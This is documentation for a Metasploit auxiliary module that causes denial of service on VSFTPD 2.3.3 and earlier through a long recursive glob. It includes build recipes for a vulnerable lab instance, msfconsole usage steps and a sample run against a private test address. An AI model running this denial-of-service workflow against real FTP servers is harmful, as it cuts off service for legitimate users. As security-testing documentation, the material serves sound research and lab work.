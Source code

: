 VSFTPD is a popular ftp server written in C. The vulnerability causes a DOS on
the service by leveraging a long recursive glob statement on the server. When
we fill the 4096 character buffer with this recursive glob search, it makes the
current thread spend all of that time unwinding that glob statement which can
use up all the resources on that core. Sending this glob on all threads leave no
availability for anyone else to access the server while taking up all of the CPU
resources of the machine.

## Vulnerable Application

This is an auxiliary for DOSing a VSFTPD server from version 2.3.3 and below. The
vulnerability has been directly tested on versions 2.3.0, 2.3.1, and 2.3.2 and have
shown success.

### Install on Arch Linux

The software has been tested on multiple versions using arch linux. To create an
installable package for the vulnerable software to test, follow these instructions.

1. Clone the source repository using `git clone https://gitlab.archlinux.org/archlinux/packaging/packages/vsftpd.git`
2. Replace the contents of the PKGBUILD with this

```pkgbuild
pkgname=vsftpd
pkgver=2.3.2
pkgrel=1
pkgdesc='Very Secure FTP daemon'
url='https://security.appspot.com/vsftpd.html'
arch=('x86_64')
license=('GPL2')
depends=('glibc' 'openssl' 'libcap' 'pam' 'libnsl')
optdepends=('logrotate')
backup=('etc/vsftpd.conf'
        'etc/xinetd.d/vsftpd'
        "etc/logrotate.d/vsftpd")
source=(https://security.appspot.com/downloads/${pkgname}-${pkgver}.tar.gz
        vsftpd-ssl.socket
        vsftpd.socket
        vsftpd.service
        vsftpd@.service
        vsftpd-ssl.service
        vsftpd-ssl@.service)
sha256sums=('SKIP'
            'd5185e48fffc6253499a55e0fe0f90a3424fc639640af11a9d38df33fb145afe'
            '9fdbfd2ec0207170371ca3cf2b0ddca2dc2fe3d062e5792e0d3e51474c3198c9'
            '0597e571718ba0f4dc4b32a4ddd148103758c48c7d65dcb8bbedafc9e810e83d'
            'd7b8e4827d4f6bafcbf52f9d2d7380958c7b08bb3f757806aa89d4bc06c9671c'
            'b88a50fc68b3bf746d13c9a777df77791cd3eac6eb7c2df655418071c2adf422'
            '4a55c2468b08d858f71bacf1f4885847bec8e548b0e92088068d9bdd3884af84')

prepare() {
  cd ${pkgname}-${pkgver}
  # build-time config
  sed -e 's|^#undef VSF_BUILD_SSL$|#define VSF_BUILD_SSL|' -i builddefs.h
  sed -e 's|/usr/share/empty|/var/empty|g' -i tunables.c vsftpd.conf.5 INSTALL
  sed -e 's|/usr/local/sbin/vsftpd|/usr/bin/vsftpd|' -i EXAMPLE/INTERNET_SITE/${pkgname}.xinetd

  # fix linking to openssl 1.1
  sed -e 's|SSL_library_init|SSL_CTX_new|' -i vsf_findlibs.sh
}

build() {
  cd ${pkgname}-${pkgver}
  make LINK='' CFLAGS="${CFLAGS} ${CPPFLAGS}" LDFLAGS="${LDFLAGS}"
}

package() {
  cd ${pkgname}-${pkgver}

  install -Dm 755 ${pkgname} -t "${pkgdir}/usr/bin"
  install -dm 755 "${pkgdir}/var/empty"
  install -Dm 644 "${srcdir}"/{*.service,*.socket} -t "${pkgdir}/usr/lib/systemd/system"

  install -Dm 644 ${pkgname}.conf -t "${pkgdir}/etc"
  install -Dm 644 EXAMPLE/INTERNET_SITE/${pkgname}.xinetd "${pkgdir}/etc/xinetd.d/${pkgname}"
  install -Dm 644 RedHat/vsftpd.log "${pkgdir}/etc/logrotate.d/${pkgname}"
  install -Dm 644 RedHat/vsftpd.pam "${pkgdir}/etc/pam.d/${pkgname}"

  install -Dm 644 ${pkgname}.8 -t "${pkgdir}/usr/share/man/man8"
  install -Dm 644 ${pkgname}.conf.5 -t "${pkgdir}/usr/share/man/man5"
  install -Dm 644 BENCHMARKS BUGS Changelog FAQ INSTALL README README.ssl REFS \
    REWARD SPEED TODO TUNING -t "${pkgdir}/usr/share/doc/${pkgname}"
}
```

3. If you want to test a different version, Change the version variable to your
desired version.
4. Run `makepkg -i` to build the package and automatically install it.
5. Start the systemd service with `sudo systemctl start vsftpd`

### Docker install on Arch Linux

A simple container was created to easily test this vulnerability. To easily run a
vulnerable instance of this application, build this image from this Dockerfile.

1. Create a `Dockerfile` and place the content below into it

```dockerfile
FROM archlinux:latest
ARG VERSION=2.3.2
RUN pacman -Sy --noconfirm gcc make libnsl
RUN curl -O https://security.appspot.com/downloads/vsftpd-$VERSION.tar.gz
RUN tar zxf vsftpd-$VERSION.tar.gz
WORKDIR /vsftpd-$VERSION
RUN make
RUN mkdir -p /usr/share/empty/
RUN chmod +x /vsftpd-$VERSION/vsftpd
RUN mv /vsftpd-$VERSION/vsftpd /bin/vsftpd
RUN mv /vsftpd-$VERSION/vsftpd.conf /etc/vsftpd.conf
RUN chown root:root /etc/vsftpd.conf
EXPOSE 21
CMD [ "/bin/vsftpd" ]
```

2. Run `sudo docker build . -t vsftpd:2.3.2 --build-arg=2.3.2`
3. Run `sudo docker run --name vsftpd -p 21:21 vsftpd:2.3.2`

Run the module against this container and the container will either slow down or crash entirely.

## Verification Steps

1. Start `msfconsole`
2. `use auxiliary/dos/ftp/vstfpd_232`
3. `set rhosts`
4. `set ftpuser`
5. `set ftppass`
6. `run`

## Scenarios

### VSFTPD 2.3.2 - Arch linux

```
msf6 > use auxiliary/dos/ftp/vsftpd_232
msf6 auxiliary(dos/ftp/vstfpd_232) > set rhosts 192.168.56.106
rhosts => 192.168.56.106
msf6 auxiliary(dos/ftp/vstfpd_232) > set ftpuser anonymous
ftpuser => anonymous
msf6 auxiliary(dos/ftp/vstfpd_232) > set ftppass ''
ftppass => 
msf6 auxiliary(dos/ftp/vstfpd_232) > run
[*] Running module against 192.168.56.106

[*] 192.168.56.106:21 - sending payload
.............................................................................................
[+] 192.168.56.106:21 - Stream was cut off abruptly. Appears DOS attack succeeded.
[*] Auxiliary module execution completed
```

You can verify that it works by either attempting to ftp into the machine after or checking htop on the machine. If the CPU is at max capacity, that would be due to the DOS.
